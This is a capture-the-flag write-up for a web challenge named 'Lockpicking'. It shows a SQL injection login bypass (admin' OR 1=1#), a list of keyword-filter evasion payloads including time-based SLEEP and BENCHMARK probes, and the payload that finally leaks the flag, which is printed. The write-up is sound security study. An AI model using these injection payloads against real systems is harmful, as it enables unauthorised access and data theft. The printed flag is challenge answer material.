




# Lockpicking
### Description: I just made a vault to store my treasured things, it should be very secure right?

We are given a link into a website.

Upon entering the website, we are greeted with 2 fields to put credentials in, a telltale sign of a SQL Injection problem:



There's a tip down there:
```
💡 Lockpicking Tip:
This login accepts many public payloads (try common cheatsheets!).
```

If so, i will try the tried and true ```admin' OR 1=1#```

It worked, and we are now in front of a Vault (Which presumably contains the flag):



However, there are warnings:
```
A digital keypad awaits you. But beware, it blocks some obvious tricks:

or, and, union, select, from, where, information_schema, --, #
```

This means the usual keywords to get the db to print the flag cannot be used, and we need to find a workaround.

I tried the following to try and break the lock and leak the flag:
```
' || 1=1/*
' || '1'='1'/*
' || 1/*
' || true/*
1 || 1/*
1 || 1=1/*
' || 1=1/**/
' || 2>1/*
' || 1<2/*
' || (1)=(1)/*
1*(1=1)
1+(1=1)
' || 'a'='a'/*
' || 'x' LIKE 'x'/*
' || 'a' IN('a')/*
' || 1=1/**/
' || 1=1 /*comment*/
' /*comment*/ || 1=1
' || CONCAT('1','=','1')/*
' || 1=0x1/*
' || 1=CHAR(49)/*
' || SLEEP(5)/*
' || BENCHMARK(1000000,MD5(1))/*
' || WAITFOR DELAY '0:0:5'/* (the OR in WAITFOR is filtered LOL)
' IS NULL || 1=1 LIMIT 1/*
' && 1=1/*
```

But none of those worked. And then i tried ```'+' ``` and the flag was printed:





Flag: ```HCS{d1d_y0u_just_unl0ck_th1s_v4ult?_c0ngr4tz_th3n_y0u_th13f}```


